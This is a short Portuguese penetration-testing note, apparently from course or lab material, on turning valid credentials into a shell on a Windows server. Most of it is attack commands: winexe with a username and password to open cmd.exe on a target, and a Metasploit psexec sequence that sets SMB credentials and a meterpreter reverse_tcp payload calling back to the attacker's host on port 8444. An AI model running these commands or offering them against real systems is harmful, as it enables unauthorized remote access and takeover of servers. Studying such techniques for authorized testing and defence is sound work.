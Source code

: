 <h1 align="center"> Obtendo shell atraves das credenciais validas</h1>
<hr>

Uma coisa interessante quando temos credenciais validas , eh usar essas credenciais para obter uma shell no servidor.


Vamos suport que o TS nao tivesse sido habilitado e so tivessemos conseguido validar o SMB por exemplo. Poderiamos testar essas credenciais para obter e executar comandos nesse servidor. Por exemplo.

Existe um utilitario chamado <span style='color:var(--mk-color-red)'>winexe</span> no Kali Linux onde passamos o usuario  a senha 
```sh
winexe -U rogerio%Roger@10 //<IPDOSERVIDOR> cmd.exe
```

Podemos tambem usar o metasploit usando o `psexec`
```sh
search psexec
msf5 > use exploit/windows/smb/psexec
msf5 > exploit(windows/smb/psexec) > show options
msf5 > set RHOST <IP DO SERVIDOR>
msf5 > set SMBUser rogerio
msf5 > set SMBPass roger@10
msf5 > set SMBDomain gbusiness
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set LHOST <NOSSO IP>
msf5 > set LPORT 8444
msf5 > exploit
```